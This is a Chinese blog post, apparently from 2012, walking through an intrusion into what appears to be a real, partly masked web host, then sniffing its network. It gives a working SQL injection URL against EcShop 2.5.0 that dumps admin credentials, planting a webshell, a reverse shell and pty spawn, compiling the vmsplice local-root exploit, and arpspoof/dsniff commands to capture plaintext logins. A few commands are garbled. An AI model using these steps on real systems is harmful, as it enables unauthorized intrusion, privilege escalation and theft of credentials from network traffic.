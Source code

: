 title: Linux下渗透嗅探术
categories: [网络安全]
tags: []
date: 2012-04-04 20:29:00
---
<p>作者: BEACH JJ</p><p>内网渗透在攻击层面，其实更趋向于社工和常规漏洞检测的结合，为了了解网内防护措施的设置是通过一步步的刺探和经验积累，有时判断出错，也能进入误区。但是如果能在网内进行嗅探，则能事半功倍，处于一个对网内设置完全透明的状态。本文将从一个注点引发的突破，到控制整个内网的全过程来跟大家讨论，内网的渗透嗅探术和安全防护一些内容。<br /><br />在寻找突破时，更多的是从应用服务来，而应用服务最直观的信息采集，就是端口扫描，不同的应用，开放的服务不一样。所以，在对网络进行信息收集时，大概分为这样两步： 端口探测，程序指纹分析。在端口探测方面，个人喜欢用SuperScan来快速对网段里的应用进行判断</p><p><img small="0" src="/images/pic/e48eb4505ab5b8213a2935fb.jpg" /></p><p>在掌握端口信息后，就要对服务应用程序的指纹进行分析，主要包括版本号、已知的漏洞信息、常规配置信息、针对此应用流行的攻击方法等。本文试着对网内一台提供WEB服务的主机作为突破口，提交一个畸形的请求，如图：</p><p><img small="0" src="/images/pic/6d6c6dffc2a50b286d22ebc6.jpg" /><br /></p><p>从上图可以读取以下信息：<br />系统类型：Fedora<br />应用程序：apache/2.2.4<br />以上只是很简单的手工对程序指纹进行分析，当然在针对web应用的扫描器，还有很多，比较常用的wvs、appscan等。用轻量级的&rdquo;wwwwscan&rdquo;来扫描</p><p><img small="0" src="/images/pic/965d283ccf22b3ccb211c7c1.jpg" /><br /></p><p>由扫描的结果可以看到，与手工探测的结果是一致的。<br /><br />通上面简单的信息收集后，可以了解到网站架构是apache+mysql+php,直接请求URL：<a href="http://61.67.xx.116/htdocs/" target="_blank" rel="noopener noreferrer">http://61.67.xx.116/htdocs/</a></p><p><img small="0" src="/images/pic/cd17c5fe6532bbe0b48f31c3.jpg" /><br /></p><p>发现此站是EcShop架构的站点，其使用的版本信息是V2.5.0。EcShop的版本是存在许多的注入点的。其中user.php文件有个注入漏洞，直接请求URL如下：<br /><a href="http://61.67.xx.116/htdocs/user.php?act=order_query&amp;order_sn=" target="_blank" rel="noopener noreferrer">http://61.67.xx.116/htdocs/user.php?act=order_query&amp;order_sn=</a>&rsquo; union select 1,2,3,4,5,6,concat(user_name,0×7c,password,0×7c,email),8 from ecs_admin_user/*</p><p><img small="0" src="/images/pic/533a63b1588c5df036d3cace.jpg" /><br />获取管理员帐号和密码，ECShop使用的是MD5加密，直接解密。原来密码是admin，有点意料之外。访问管理后台，修改模版处，插入一句木马，即可得到WEBSEHLL，如图：</p><p><img small="0" src="/images/pic/e2b6e8a6a79c7993cbefd0c8.jpg" /><br /></p><p>在获取WEBshell权限后，就需要对系统进行分析，查找Exp了。执行命令如下：<br />#uname &ndash;a<br /><br />返回的信息是&ldquo;Linux fedora 2.6.20-1.2962.fc6 &rdquo;，Linux内核是2.6.20的。<br />在提权时，要用到gcc进行编译，刺探一下系统有没有安装，执行命令，<br />#gcc &ndash;help<br /><br />发现可以运行gcc,并且系统管理员没对使用shell和gcc进行限制，在也是个安全缺失。<br /><br />在寻找本地提权利用程序时，通常是根据系统版本来进行，应用程序的本地提权也是一样的。在网上就有可供查询的网站，比如<a href="http://www.milw0rm.com/" target="_blank" rel="noopener noreferrer">http://www.milw0rm.com/</a>网站如图</p><p><img small="0" src="/images/pic/d227f7f8257cc2bcb901a0cb.jpg" /><br />发现可利用的漏洞还真不少。<br /><br />本地提权是需要个交互式的shell的。在本机监听端口如下：<br /><br />利用WebShell自带的反弹功能直接连接本地的12345端口并返回shell</p><p><img small="0" src="/images/pic/d6190e7e92d902d32e73b3d5.jpg" /></p><p>连接成功后，就能得到一个apache用户的shell<br />，但有时如果不能交互时，可以直接执行，<br /># python &ndash;c &lsquo;impotr pty;pty.spawn(&ldquo;/bin/sh&rdquo;);&rsquo;<br />来得到交互的Shell,一般的系统都默认安装python</p><p><img small="0" src="/images/pic/05fa8aff3278251c4f4aead6.jpg" /></p><p>提示成功了，可以新建个目录用来存放提权的工具。</p><p><img small="0" src="/images/pic/162231f3e724d01c720eecde.jpg" /><br /></p><p>在Linux提权大致可分为，第三方软件漏洞、本地信任特性、内核溢出等，比较常用的溢出率高的，当属内核了。用Wget下载溢出源码，用到的漏洞是Linux vmsplice Local Root Exploit<br />，成功率蛮高的，gcc编译，执行，</p><p><img small="0" src="/images/pic/d745d3fc9c311931d9f9fda5.jpg" /><br /></p><p>成功获取root权限，在选择溢出利用程序时，有时需要进行多次测试。<br /><br />什么是Sniffer，sniffer是利用截获目的的计算机通信，通过分析截获的数据，提取敏感信息的工具。但其通过什么方法来截获数据呢？在此之前得解释一下arp（Address Rrsolution Protocol）协议,即地址解析协议，它位于TCP/IP协议栈中的低层协议，负责将某个IP地址解析成对应的MAC地址。它靠维持在内存中保存的一张表来使IP得以在网络上被目标机器应答。在数据传送时，IP包里就有源IP地址、源MAC地址、目标IP地址，如果在ARP表中有相对应的MAC地点，那么根据最优选择法，直接访问，如果，没有对应的地址，就要广播出去，在网内寻找对应的地址，如果对方的IP地址和发出的目标IP地址相同，那么对方会发送MAC地址给源主机，，而此时，如果攻击者也接听到发送的IP地址，它就会仿冒目标主机的IP地址，然后返回自己的主机的MAC地址给源主机，因为源主机发送的IP包没有包括目标主机的MAC地址，而ARP表里面又没有目标IP和目标MAC地址的对应表，就会接受攻击者的MAC而选择与其通信，所以就此产生了ARP欺骗。在系统刚启动时，可以在DOS下输入命令&ldquo;arp -a&rdquo;来查看本机arp缓存表的内容</p><p><img small="0" src="/images/pic/2f3f5f0d314238f13bc763a7.jpg" /><br />我们来与IP192.168.0.5进行通信，通信后arp缓存表就会有这样一条MAC地址和IP对应的记录</p><p><img small="0" src="/images/pic/f4c3451adf8946ca1bd576b1.jpg" /><br /></p><p>在本机多了条缓存中的IP和MAC的对应纪录。<br /><br />Dsniff是一个著名的网络嗅探工具包，其开发者是Dug Song，其开发的本意是用来揭示网络通信的不安全性，方便网络管理员对自己网络的审计，当然也包括渗透测试，其安装包里某此工具，充分揭示了协议的不安全性。作为一个工具集，Dsniff包括的工具大致分为四类：<br />一、 纯粹被动地进行网络活动监视的工具，包括：dsniff、filesnarf、mailsnaf、msgsnarf、urlsnarf、webspy<br />二、 针对SSH和SSL的MITM&ldquo;攻击&rdquo;工具，包括sshmitm和webmitm<br />三、 发起主动欺骗的工具，包括：arpspoof、dnsspof、macof<br />四、 其它工具，包括tcpkill、tcpnice<br /><br />Dsniff的官方下载：<a href="http://www.monkey.org/~dugsong/dsniff/" target="_blank" rel="noopener noreferrer">www.monkey.org/~dugsong/dsniff/</a> 这个是源码包，解压后可以看下README,提示需要五个软件的支持：openssl、Berkeley_db、libnet、libpca、libnids<br />下载地址如下：<br />Berkeley_db: <a href="http://www.oracle.com/technology/software/products/berkeley-db/index.html" target="_blank" rel="noopener noreferrer">http://www.oracle.com/technology ... keley-db/index.html</a><br />libpcap: <a href="http://www.tcpdump.org/release/libpcap-1.0.0.tar.gz" target="_blank" rel="noopener noreferrer">http://www.tcpdump.org/release/libpcap-1.0.0.tar.gz</a><br /><br /><br /><br />系统一般默认都有安装openssl、libpcap。</
p><ol> <li>一、        Tar包安装<br /> </li> <li>如果下载的是源包，文件如下：openssl-0.9.7i.tar.gz、libnids-1.18.tar.gz、libpcap-0.7.2.tar.gz、libnet-1.0.2a.tar.gz、Berkeley db-4.7.25.tar.gz<br /> </li> <li>a)        安装openssl<br /> </li> <li>用tar解压软件包手，执行三条命令<br /> </li> <li>#./config<br /> </li> <li>#make<br /> </li> <li>#make install<br /> </li> <li>b)        安装libpcap<br /> </li> <li>#./config<br /> </li> <li>#make<br /> </li> <li>#make install<br /> </li> <li>c)        安装libnet<br /> </li> <li>#./config<br /> </li> <li>#make<br /> </li> <li>#make install<br /> </li> <li>d)        安装libnids<br /> </li> <li>#./config<br /> </li> <li>#make<br /> </li> <li>#make install<br /> </li> <li>e)        安装libnids<br /> </li> <li>#./config<br /> </li> <li>#make<br /> </li> <li>#make install<br /> </li> <li>f)        安装Berkeley DB<br /> </li> <li>#.cd build_unix<br /> </li> <li>#../dist/configure<br /> </li> <li>#make<br /> </li> <li>#make install<br /> </li> <li>g)        安装dsniff<br /> </li> <li>#./configure<br /> </li> <li>#make<br /> </li> <li>#make install<br /> </li> <li>程序安装好后，先查看一下网卡信息，然后开启服务器IP转发，命令如下：<br /> </li> <li># echo &quot;1&quot; &amp;gt; /proc/sys/net/ipv4/ip_forward</li></ol><em>复制代码</em><p>先来双向欺骗，用到arpspoof，其命令是：<br />#arp &ndash;t 网关 欺骗主机IP</p><p><img small="0" src="/images/pic/8ab572e964e6c3eab31cb1bd.jpg" /></p><p>arpspoof已经开始工作了，可以用tcpdump查看一下被攻击主机是否有数据经过<br />命令如下：<br />#tcpdump &ndash;I eth0 host 61.67.x.115</p><p><img small="0" src="/images/pic/f9760116f08cf86ff819b8bf.jpg" /><br /><br />有数据交换，说明欺骗的比较成功，然后用Dsniff开始嗅探目标主机，命令如下：<br />#Dsniff &ndash;c &ndash;f /etc/dsniff/dsniff.services<br />这个dsniff.services自然就是保存端口和服务对应关系的文件，如需要保存到文件，需加-w filename数据全是明文传送的。所以数据分析完全能用肉眼发现</p><p><img small="0" src="/images/pic/30581d2958b3600a349bf7b9.jpg" /></p><p>从这条数据可以看到HTTP登录和FTP登录信息，帐号和密码全是明文的。而经过测试，通过FTP上传的目录正是WEB目录，获取WEBShell权限，继续提权即可控制主机。Linux下的嗅探，其实更容易一些，在最近爆出的高危本地提权，不知道有多少台主机沦陷呢？在攻与防的游戏里，系统管理员往往显得如此的无助。</p><p> </p>